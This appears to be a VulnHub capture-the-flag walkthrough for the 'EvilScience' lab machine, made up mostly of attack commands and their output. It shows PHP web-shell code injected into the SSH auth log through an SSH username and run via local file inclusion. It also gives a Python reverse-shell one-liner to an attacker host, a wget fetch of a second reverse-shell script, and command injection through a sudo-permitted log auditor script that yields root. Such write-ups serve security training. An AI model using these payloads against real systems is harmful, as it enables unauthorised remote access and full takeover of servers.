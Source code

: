 EvilScene

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
To exploit ssh "<?php echo system($_GET['cmd']);?>"@192.168.56.105
[+] Local File Inclusion LFI = in access log /var/log/auth.log -  SSH log -LFI
[+] Python Reverse Shell
[+] Privilege Escalation abusing SUDO rights - xxxlogauditorxxx.py
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.105
Host is up (0.00055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
|   256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
|_  256 86:6c:7c:4b:04:7e:57:4f:68:16:a9:74:4c:0d:2f:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: The Ether
MAC Address: 08:00:27:AE:7A:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Testing for Local File Inclusion 

We found that we can access /var/log/auth.log

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil1.png)


To exploit we leverage the auth log

ssh "<?php echo system($_GET[’cmd']);?>"@192.168.56.105

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh "<?php echo system($_GET['cmd']);?>"@192.168.56.105
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
<?php echo system(['cmd']);?>@192.168.56.105: Permission denied (publickey,password).

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Reverse shell - Remote Command Execution

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil2.png)


Getting a reverse shell using python:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This is URL encoded and send to the server:

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil3.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50232
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
bash-4.3$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
bash-4.3$ pwd
pwd
/var/www/html/theEther.com/public_html
bash-4.3$ sudo -l
sudo -l
sudo: unable to resolve host theEther: Connection refused
Matching Defaults entries for www-data on theEther:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on theEther:
    (ALL) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py
    (root) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@theEther:/var/www/html/theEther.com/public_html$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py
<tml$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py                  
--2019-10-20 01:29:11--  http://192.168.56.102:8787/log.py
Connecting to 192.168.56.102:8787... connected.
HTTP request sent, awaiting response... 200 OK
Length: 243 [text/plain]
Saving to: '/tmp/log.py'

/tmp/log.py         100%[===================>]     243  --.-KB/s    in 0s      

2019-10-20 01:29:11 (59.2 MB/s) - '/tmp/log.py' saved [243/243]

$ cat /tmp/log.py
#!/usr/bin/python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.102",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
ssp=subprocess.call(["/bin/sh","-i"]);




www-data@theEther:/var/www/html/theEther.com/public_html$ chmod +x /tmp/log.py
<html/theEther.com/public_html$ chmod +x /tmp/log.py                         
www-data@theEther:/var/www/html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py
<html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py                   
sudo: unable to resolve host theEther: Connection refused
===============================
Log Auditor
===============================
Logs available
-------------------------------
/var/log/auth.log
/var/log/apache2/access.log
-------------------------------

Load which log?: /var/log/auth.log | /tmp/log.py
/var/log/auth.log | /tmp/log.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Root Shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50976
# id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



